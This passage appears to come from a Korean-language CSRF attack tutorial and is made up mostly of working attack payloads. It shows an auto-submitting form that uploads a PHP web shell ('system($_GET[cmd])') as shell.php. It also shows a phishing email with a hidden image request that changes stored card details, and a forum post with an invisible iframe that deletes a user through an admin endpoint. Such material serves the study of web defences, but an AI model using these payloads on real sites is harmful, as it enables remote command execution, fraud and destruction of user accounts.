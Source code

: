 ### 2.3. 파일 업로드 CSRF

#### 2.3.1. multipart/form-data 폼
```html
<form action="http://target.com/upload" method="POST" enctype="multipart/form-data">
    <input type="hidden" name="file" value="malicious_file.php">
    <input type="hidden" name="description" value="Legitimate file">
    <input type="file" name="upload_file" style="display:none">
</form>

<script>
// 가짜 파일 데이터 생성
var form = document.querySelector('form');
var fileInput = document.querySelector('input[type="file"]');

// Blob을 이용한 가짜 파일 생성
var maliciousContent = '<?php system($_GET["cmd"]); ?>';
var blob = new Blob([maliciousContent], {type: 'text/plain'});
var file = new File([blob], 'shell.php', {type: 'text/plain'});

// DataTransfer를 이용해 파일 할당
var dataTransfer = new DataTransfer();
dataTransfer.items.add(file);
fileInput.files = dataTransfer.files;

form.submit();
</script>
```

### 2.4. 소셜 엔지니어링 연계 공격

#### 2.4.1. 이메일을 통한 공격
```html
<!-- HTML 이메일 내용 -->
<p>안녕하세요! 특별 혜택을 위해 아래 링크를 클릭해주세요.</p>
<a href="http://target.com/subscribe_premium?plan=yearly&auto_renew=true">
    프리미엄 1년 무료 사용하기
</a>

<!-- 숨겨진 CSRF 공격 -->
<img src="http://target.com/api/update_payment?card=1234567890123456&exp=12/25" 
     style="width:1px;height:1px;display:none">
```

#### 2.4.2. 게시판을 통한 공격
```html
<!-- 게시글에 삽입된 CSRF 코드 -->
<div>
    <h3>유용한 정보 공유합니다!</h3>
    <p>이 내용을 보시는 분들께 도움이 되었으면 합니다.</p>
    
    <!-- 보이지 않는 CSRF 공격 -->
    <iframe src="http://target.com/admin/delete_user?id=victim_id" 
            width="0" height="0" style="display:none"></iframe>
</div>
```

---